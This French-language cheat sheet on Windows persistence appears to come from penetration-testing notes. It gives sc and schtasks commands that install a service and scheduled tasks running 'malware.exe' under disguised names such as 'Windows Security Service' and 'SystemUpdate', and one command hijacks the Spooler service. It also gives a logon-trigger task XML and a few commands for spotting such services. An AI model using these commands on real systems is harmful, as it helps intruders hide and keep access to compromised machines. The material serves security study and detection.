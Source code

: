 #### Services Windows

**Création de service**
```powershell
# Création d'un service persistant
sc create "WindowsSecurityService" binpath= "C:\Windows\System32\malware.exe" start= auto displayname= "Windows Security Service"

# Démarrage du service
sc start "WindowsSecurityService"

# Modification d'un service existant
sc config "Spooler" binpath= "C:\Windows\System32\malware.exe"
```

**Analyse des services**
```powershell
# Liste des services
sc query type= service state= all

# Détail d'un service
sc qc "WindowsSecurityService"

# Vérification des binaires
Get-WmiObject -Class Win32_Service | Where-Object {$_.PathName -notlike "*system32*"} | Select-Object Name, PathName
```

#### Scheduled Tasks

**Création de tâches**
```powershell
# Tâche simple
schtasks /create /tn "SystemUpdate" /tr "C:\Windows\Temp\malware.exe" /sc daily /st 09:00

# Tâche avancée avec XML
schtasks /create /tn "SecurityCheck" /xml task.xml
```

**Fichier XML de tâche**
```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2">
  <Triggers>
    <LogonTrigger>
      <Enabled>true</Enabled>
    </LogonTrigger>
  </Triggers>
  <Actions>
    <Exec>
      <Command>C:\Windows\Temp\malware.exe</Command>
    </Exec>
  </Actions>
</Task>
```
